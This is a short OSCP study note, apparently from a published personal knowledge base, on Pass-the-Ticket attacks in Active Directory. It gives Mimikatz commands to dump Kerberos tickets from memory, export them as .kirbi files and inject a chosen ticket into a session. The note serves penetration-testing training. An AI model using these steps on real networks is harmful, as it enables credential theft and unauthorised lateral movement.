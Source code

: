 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/14. Active Directory Movement/5. Pass-the-Ticket/"}
---
```


----------
- Dumped tickets from memory may be exported and used anywhere
- Also, if the tickets belong to the current user no administrative privileges are needed

### Pass-the-Ticket using Mimikatz:
1. Start Mimikatz and enable debug.
2. Dump all Kerberos tickets from memory (including logged in users):
```
sekurlsa::tickets /export
```
3. List all dumped tickets:
```
dir *.kirbi
```
5. Inject any selected ticket:
```
kerberos::ptt ticket.kirbi
```
6. Examine ticket:
```
klist
```

